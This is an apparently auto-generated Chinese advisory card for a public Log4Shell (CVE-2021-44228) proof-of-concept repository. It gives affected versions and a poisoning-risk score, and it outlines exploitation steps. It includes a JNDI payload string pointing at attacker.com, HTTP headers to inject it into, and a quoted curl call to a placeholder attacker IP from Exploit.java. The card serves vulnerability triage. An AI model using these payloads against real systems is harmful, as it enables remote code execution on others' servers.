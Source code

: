 ## CVE-2021-44228 - Apache Log4j2 Log4Shell JNDI注入

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 高危，可导致远程代码执行

**影响版本:** 2.0-beta9 到 2.15.0 (不包含安全版本 2.12.2, 2.12.3, 和 2.3.1)

**利用条件:** 目标系统使用受影响的Log4j2版本，并且允许出站网络连接。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-44228 (Log4Shell) 是一个关键的远程代码执行漏洞，存在于 Apache Log4j 2.0-beta9 到 2.15.0 版本中 (不包括安全版本 2.12.2、2.12.3 和 2.3.1)。此漏洞源于 Log4j2 JNDI 功能在配置、日志消息和参数中，未能防止攻击者控制的 LDAP 和其他 JNDI 相关端点。 攻击者可以通过控制日志消息或日志消息参数，在启用消息查找替换时，执行从 LDAP 服务器加载的任意代码。

**有效性：**
根据漏洞描述和提供的PoC代码，该漏洞的利用是有效的。PoC 通过 JNDI 注入 LDAP URL 来触发漏洞，从而导致远程代码执行。

**投毒风险：**
该仓库的投毒风险评估为10%。虽然PoC本身旨在演示漏洞利用，但 `Exploit.java` 包含执行 `curl http://TU_IP:9999/pwned` 的指令，表明攻击者可以轻易地替换成更具破坏性的命令。`main.py`脚本本身看起来没有明显的恶意代码，但如果攻击者修改`Exploit.java` 并诱导用户使用，则存在风险。 README中包含了从github上克隆`marshalsec`的步骤，如果`marshalsec`库被投毒，也会导致风险。因此，需要仔细审查和验证。

**利用方式：**
1.  **确定目标：** 找到使用易受攻击的 Log4j2 版本的应用程序。
2.  **构造Payload：** 构造包含 JNDI 查找的恶意字符串。例如： `${jndi:ldap://attacker.com/Exploit}`。
3.  **触发日志记录：** 将 Payload 注入到应用程序将会记录的输入字段中，例如 HTTP Headers (User-Agent, Referer, X-Forwarded-For), POST 参数等。
4.  **恶意LDAP服务器：**设置一个恶意的LDAP服务器，当Log4j2尝试去lookup这个URL的时候，从HTTP服务器上获取恶意的Java Class文件并执行。
5.  **远程代码执行：** Log4j2 将连接到攻击者的 LDAP 服务器，检索并执行恶意 Java 代码，从而允许攻击者在目标系统上执行任意命令。

请注意，成功利用此漏洞需要目标应用程序启用消息查找替换，并且能够解析 JNDI 查找。较高版本的 Log4j 默认禁用了此功能，从而缓解了此漏洞。

**项目地址:** [moften/Log4Shell](https://github.com/moften/Log4Shell)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)